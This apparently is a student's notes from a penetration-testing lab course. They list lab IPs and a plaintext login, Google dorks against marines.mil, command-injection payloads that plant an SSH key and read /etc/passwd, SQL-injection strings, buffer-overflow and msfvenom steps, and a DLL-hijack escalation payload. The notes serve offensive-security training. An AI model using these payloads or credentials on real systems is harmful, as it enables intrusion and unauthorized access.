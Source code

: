 GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67
winops
10.50.26.46
xfreerdp /u:student /v:10.50.26.46 /dynamic-resolution +glyph-cache +clipboard


Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal


# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables

# DEV EXPLOIT
gdb 
wiremask 
look for off set for eip 
gdb pdisass main
env - gdb (file)
show env
unset env
run and crash the program
info proc map
find /b (start of heap), (end of stack), 0xff, 0xef
find jump to eip to jum esp
msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python

!mona modules
!mona jmp -r esp -m
/.hidden/inventory.exe <<<$(./mybuff.py)

# priv escalation 
procmon
crl L
path containt dll
-p windows/exec CMD='cmd.exe /C "whoami" > C:\ p\whami.txt' -f dll > sspiclr dll
